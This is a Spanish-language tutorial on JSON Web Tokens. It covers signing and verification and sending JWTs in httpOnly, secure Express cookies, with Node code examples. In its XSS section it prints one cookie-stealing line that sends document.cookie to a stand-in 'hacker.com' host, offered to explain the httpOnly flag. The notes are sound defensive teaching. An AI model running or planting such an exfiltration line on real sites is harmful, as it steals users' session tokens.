

# 1. JSON WEB TOKEN



En esta imagen se muestra cómo funciona un **JWT (JSON Web Token)** en dos fases: 

- 1. **Firma (signing)**

- 2. **Verificación (verifying)**

# 1. SIGNING (cuando el servidor crea el token)

Aquí es cuando se hace login y el backend genera el JWT.

### Elementos:

- **Header + Payload**

    - **Header**: tipo de token y algoritmo (`HS256`, etc.)
    - **Payload**: datos (ej: `userId`, `role`)

- **Secret**

    - Una clave privada del servidor (ej: `"mi_super_secreto"`)

## Proceso:

1. Se toman:

```

HEADER + PAYLOAD

```

2. Se combinan con el:

```

SECRET

```

3. Se genera una:

```

SIGNATURE

```

Todo junto forma el:

```

JWT = header.payload.signature

```

- Ese JWT se envía al cliente (frontend).

# 2. CLIENT

El cliente (React, app móvil, etc):

- Guarda el token (localStorage, cookies, etc.)

- Lo manda en cada request:

```

Authorization: Bearer <JWT>

```

# 3. VERIFYING (cuando el servidor valida el token)

Cada vez que el cliente hace una petición protegida:

### El servidor:

1. Recibe el JWT

2. Lo separa en:

    - Header

    - Payload

    - Signature (original)
3. Luego hace esto:

    - Vuelve a generar una firma (**TEST SIGNATURE**) usando:

    ```
    
    HEADER + PAYLOAD + SECRET

    ```

# 4. COMPARACIÓN (lo más importante)

Se comparan:

- **Original Signature** (la que venía en el token)

- **Test Signature*** (la que el servidor acaba de generar)

### Si coinciden:

- ✔ El token es válido

- ✔ No ha sido alterado

- ✔ Se puede confiar en el payload

### Si NO coinciden:

- ❌ El token fue modificado

- ❌ O el secret es incorrecto

- ❌ Se rechaza la petición

## IMPORTANTE

**El SECRET nunca se comparte**.

Por eso:

- Nadie puede falsificar un JWT válido sin conocer ese secret.

### Ejemplo con Node

``` javascript
const jwt = require('jsonwebtoken');

// CREAR TOKEN (signing)
const token = jwt.sign(
  { id: user._id },
  process.env.JWT_SECRET,
  { expiresIn: '1h' }
);

// VERIFICAR TOKEN
const decoded = jwt.verify(token, process.env.JWT_SECRET);

```

### Muchos piensan:

- "El JWT está encriptado"

❌ No

✔ Está firmado, no cifrado

El payload se puede leer (base64), pero **no se puede modificar sin romper la firma.**

# 2. JWT + Cookies + Seguridad

Existen dos formas comunes de enviar JWT:

1. En headers (Authorization: Bearer)

2. En cookies

Este ejemplo usaremos cookies.

``` javascript

const createSendToken = (user, statusCode, res) => {

    const token = signToken(user.id);

    res.cookie('jwt', token, {
        expires: new Date(
            Date.now() + process.env.JWT_COOKIE_EXPIRES_IN * 24 * 60 * 60 * 1000
        ),
        secure: true,
        httpOnly: true
    });

    res.status(statusCode).json({
        status: 'success',
        token,
        data: {
            user
        }
    });
};
```

## ¿Qué hace este código?

``` javascript

res.cookie('jwt', token, {

```

Le dice al navegador:

- Guarda esta cookie llamada `jwt` con este token.

## La cookie queda así

El navegador guarda algo como:

```

jwt=eyJhbGc...

```

Y luego:

- el navegador la manda automáticamente en futuras requests.

### `res.cookie()`

Es un método de Express:

``` javascript

res.cookie(nombre, valor, opciones)

```

### Ejemplo de arriba

``` javascript

res.cookie('jwt', token, {

```

| Parte   | Significado         |
| ------- | ------------------- |
| `'jwt'` | nombre de la cookie |
| `token` | el JWT              |
| `{}`    | configuración       |


### EXPIRES

``` javascript

expires: new Date(
  Date.now() + process.env.JWT_COOKIE_EXPIRES_IN * 24 * 60 * 60 * 1000
)

```

- Define cuándo expira la cookie.

### `Date.now()`

Devuelve:

- timestamp actual en milisegundos

### Multiplicación

```

24 * 60 * 60 * 1000

```

equivale a:

- 1 día en milisegundos

### Entonces:

```

JWT_COOKIE_EXPIRES_IN = 90

```

significa:

- la cookie dura 90 días.

### `secure: true`

``` javascript

secure: true

```

Muy importante.

Significa:

- la cookie solo viaja por HTTPS

### ¿Por qué?

Para evitar que alguien robe cookies en conexiones HTTP inseguras.

### `httpOnly: true`

``` javascript

httpOnly: true

```

Súper importante.

Significa:

- JavaScript del navegador NO puede leer la cookie.

### Entonces esto no funciona:

``` javascript

document.cookie

```

- para leer esa cookie.

### ¿Por qué es tan importante?

Protege contra:

- XSS attacks

### XSS simple

#### Sin `httpOnly`:

``` javascript

fetch('https://hacker.com/steal?cookie=' + document.cookie)

```
- ❌ podrían robar tu JWT.

#### Con `httpOnly`

El navegador:

- ✅ sigue enviando la cookie automáticamente

- ❌ pero JS no puede leerla

## Flujo completo
1. Login

Backend:

``` javascript

res.cookie('jwt', token, ...)

```

2. Navegador guarda cookie

``` javascript

jwt=eyJhbGc...

```

3. Requests futuras

El navegador automáticamente manda:

``` javascript

Cookie: jwt=eyJhbGc...

```

### 🔵 Diferencia con Bearer

#### Bearer

Nosotros manualmente mandamos:

``` http

Authorization: Bearer token

```

#### Cookies

El navegador las manda automáticamente.

#### Entonces…
JWT sigue siendo JWT

Solo cambia:

- cómo lo transportamos

## IMPORTANTE

### Bearer Token

Pros:

- simple

- APIs puras

- mobile friendly

Contras:

- vulnerable a XSS si usamos 
- localStorage

### Cookies

Pros:

- httpOnly

- más seguras contra XSS

Contras:

- CSRF

- configuración más compleja

**Nota**

Aunque usemos cookies:

- el backend igual debe verificar el JWT.

La cookie solo transporta el token.

## Resumen

1. Crear JWT usando el id del usuario.

``` javascript

const token = signToken(user._id);

```

2. Guardarlo en cookie segura

``` javascript

res.cookie(...)

```
3. Responder al cliente

``` javascript

res.status(...).json(...)


```

# Ahora vamos a usar un objeto para las opciones de la cookie

``` javascript

const cookieOptions = {
    expires: new Date(
  Date.now() + process.env.JWT_COOKIE_EXPIRES_IN * 24 * 60 * 60 * 1000
),

    httpOnly: true,

};

if (process.env.NODE_ENV === 'production')
  cookieOptions.secure = true;

res.cookie('jwt', toekn, cookieOptions)

// Remove password from output
user.password = undefined;

```

## `secure` SOLO en producción

``` javascript

if (process.env.NODE_ENV === 'production')
  cookieOptions.secure = true;

```

Muy importante.

### ¿Qué hace?

En producción:

``` javascript

secure: true

```

significa:

- la cookie solo viaja por HTTPS

### Por qué no siempre?

Porque en localhost normalmente usamos:

```

http://localhost:3000

```

NO HTTPS.

Entonces:

``` javascript

secure: true

```

haría que:

- ❌ la cookie no funcione en desarrollo.

| Entorno     | secure |
| ----------- | ------ |
| development | false  |
| production  | true   |


## ESTA PARTE ES MUY IMPORTANTE

``` javascript

user.password = undefined;

```

### ¿Por qué hacen esto?

Porque el objeto `user` contiene:

``` javascript

{
  name: 'Jonas',
  email: 'jonas@test.com',
  password: '$2b$10$asdadasd...'
}

```

Y no queremos enviar el `password` al cliente

Aunque esté hasheado.

### Entonces hacemos:

``` javascript

user.password = undefined;

```

- para que no aparezca en:

``` javascript

res.json(...)

```
### Resultado

Antes:

``` json
{
  "user": {
    "email": "test@test.com",
    "password": "$2b$10..."
  }
}

```

Después:

``` json

{
  "user": {
    "email": "test@test.com"
  }
}

```

## Respuesta final

``` javascript

res.status(statusCode).json({

```

Devuelve:


- status

- token

- user

### Aquí usamos:

- cookie

- Y también enviando el token en JSON

## Eso significa que soporta dos formas de auth

### Cookie auth

El navegador guarda:

```

jwt=...

```

### Bearer token auth

El frontend puede tomar:

``` json

{
  "token": "eyJ..."
}

```

y ponerlo en:

``` http

Authorization: Bearer ...

```

### Entonces este controller hace muchas cosas

- ✅ Login exitoso

- ✅ Genera JWT

- ✅ Guarda JWT en cookie segura

- ✅ Oculta password

- ✅ Devuelve respuesta limpia

**Nota**

El JWT no reemplaza las cookies

| Concepto | Qué es                                 |
| -------- | -------------------------------------- |
| JWT      | formato del token                      |
| Cookie   | mecanismo de almacenamiento/transporte |

Podemos:

- guardar JWT en cookies

 - guardar JWT en localStorage

 - mandar JWT por Bearer

Son capas distintas.

Archvo `controllers/authController.js`

``` javascript

const createSendToken = (user, statusCode, res) => {
  const token = signToken(user._id);

  const cookieOptions = {
    expires: new Date(
      Date.now() +
        process.env.JWT_COOKIE_EXPIRES_IN * 24 * 60 * 60 * 1000
    ),
    httpOnly: true
  };

  if (process.env.NODE_ENV === 'production')
    cookieOptions.secure = true;

  res.cookie('jwt', token, cookieOptions);

  // Remove password from output
  user.password = undefined;

  res.status(statusCode).json({
    status: 'success',
    token,
    data: {
      user
    }
  });
};

```